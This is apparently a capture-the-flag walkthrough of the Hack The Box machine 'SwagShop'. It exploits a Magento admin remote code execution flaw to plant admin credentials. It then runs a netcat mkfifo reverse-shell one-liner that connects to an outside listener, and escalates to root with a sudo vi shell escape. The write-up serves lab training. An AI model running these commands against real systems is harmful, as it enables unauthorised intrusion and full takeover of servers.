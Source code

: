# 🛒 swagshop

## Enumeration

Nothing Special in nmap

We add the domain swagshop.htb and its ip in /etc/hosts

In the Website We see that its running an magento

&#x20;So we search for the exploit

and we see an remote code execution,so we add it and in script we see

```
if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
```

We check if admin page exists

Then we run the script

It created an new user with cred's forme:forme

We have also seen an authenticated code execution in the searchsploit

so we download it

In the Config part of exploit we see that we need some details from an fille "app/etc/local.xml"

So we search it and found the data needed like

changed the username and password to forme and forme, and install date to **Wed, 08 May 2019 07:23:09 +0000** (as I found in the [http://swagshop.htb/app/etc/local.xml](http://swagshop.htb/app/etc/local.xml) file)\
I ran the script:

```
python2 37811.py  whoami
```

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*aGfIqh63et1r9l0kFcysrQ.png" alt="" height="220" width="700"><figcaption></figcaption></figure>

It gave me this error :/\
I opened the script and started reading it

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*spUS1S5KXm-0ALwlLDPrzw.png" alt="" height="83" width="700"><figcaption></figcaption></figure>

I was having the error due to these lines. I figured it was because it was adding username control two times. I commented out this line:\
**br.form.new\_control(‘text’, ‘login\[username]’, {‘value’: username})**\
And ran the script again:

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*qhKRQI0kw2i5v_N9si94vw.png" alt="" height="93" width="700"><figcaption></figcaption></figure>

It worked!\
Now, time to get a reverse shell.\
I used a one liner from [Pentestmonkey Reverse Shell Cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).\
Set up a nc listener and run this command:

```
python2 37811.py  "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 1234 >/tmp/f"
```

<figure><img src="https://miro.medium.com/v2/resize:fit:530/1*LDGZyhc6zCrNW25mkTbUKQ.png" alt="" height="183" width="530"><figcaption></figcaption></figure>

And I got a shell!\
Let’s stabilise it first using [socat](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).\
Get **user.txt** from **/home/haris/user.txt**.

Now, time for some privilege escalation.\
Run **sudo -l**.

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*1fg7GCiZYHFVLzbqh8UBDQ.png" alt="" height="106" width="700"><figcaption></figcaption></figure>

Great! Searching in gtfobins I found [this](https://gtfobins.github.io/gtfobins/vi/).\
I ran:

```
sudo /usr/bin/vi /var/www/html/* -c ':!/bin/sh' /dev/null
```

<figure><img src="https://miro.medium.com/v2/resize:fit:490/1*fwU4u1gx7IbgKcKcOYP26g.png" alt="" height="211" width="490"><figcaption></figcaption></figure>

And, that’s it! We are root!\
Get **root.txt** from **/root/root.txt**.

**We have successfully pwned the box!**
